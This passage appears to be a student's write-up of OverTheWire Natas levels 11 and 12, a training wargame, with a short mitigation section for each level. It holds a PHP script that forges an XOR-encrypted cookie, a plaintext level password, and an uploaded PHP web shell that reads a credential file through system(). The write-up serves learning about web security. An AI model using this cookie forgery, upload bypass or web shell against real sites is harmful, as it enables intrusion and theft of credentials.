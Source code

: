 ```xor.php```
```php
<?php
$cookie = "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=";

function xor_enc($data) {
    // $key = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $key = "qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8J";
    $out = '';

    for ($i=0;$i<strlen($data); $i++) {
        $out .= $data[$i] ^ $key[$i % strlen($key)];
    }

    return $out;
}

printf("%s\n", base64_encode(xor_enc(json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"))));
// printf("%s\n", xor_enc(base64_decode($cookie)));

?>
```

#### What sins are evidenced in this challenge
Sin #12

#### How could those sins be mitigated
Don't roll your own crypto
Don't show your crypto methods in the source code



---
### Natas 12

#### Credentials
Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

#### How you passed the challenge
1) I looked through the source code and tried uploading a few different files
2) I saw that while the filename is changed, the extension in the hidden filename field is preserved so I changed the extension of the filename to php
3) I uploaded the following script to display the password at the link of the uploaded file

```image.php```
```php
<?php
    system("cat /etc/natas_webpass/natas13");
?>
```

#### What sins are evidenced in this challenge
Sin #4, Sin #12, Sin #16
